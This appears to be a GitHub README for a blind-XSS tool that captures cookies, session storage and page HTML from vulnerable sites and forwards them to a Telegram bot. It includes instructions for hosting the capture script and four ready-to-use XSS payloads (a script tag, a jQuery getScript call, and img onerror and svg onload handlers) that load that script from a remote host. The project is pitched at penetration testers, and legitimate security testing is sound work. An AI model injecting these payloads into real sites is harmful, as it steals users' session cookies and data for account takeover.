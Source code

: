 # 🔍 Blind XSS Alert with Telegram

## 📜 Description
This project is designed to identify Blind XSS vulnerabilities by capturing data from affected web pages and sending it to a Telegram bot. The data includes cookies, session storage, and HTML content. This tool is useful for security researchers and penetration testers looking to automate the detection of Blind XSS vulnerabilities.

## 🚀 Features
- Captures and sends cookies, and HTML content to Telegram.
- Uploads HTML content as a separate file for easier review.
- Includes payload examples for testing purposes.

### 🛠️ Hosting on GitHub Pages
1. Create a GitHub repository named `blind-xss-alert-with-telegram`.
2. Upload `script.js` and any related files
3. Push changes to GitHub.

## 🧪 Payload Examples
<script src=//yourserver.com/script.js></script>
<script>$.getScript("https://yourserver.com/script.js")</script>
<Img src="nonexistent.jpg" OnError="var script = document.createElement('script'); script.src = 'https://yourserver.com/script.js'; document.head.appendChild(script);">
<Svg Only=1 OnLoad="var script = document.createElement('script'); script.src = 'https://yourserver.com/script.js'; document.head.appendChild(script);">

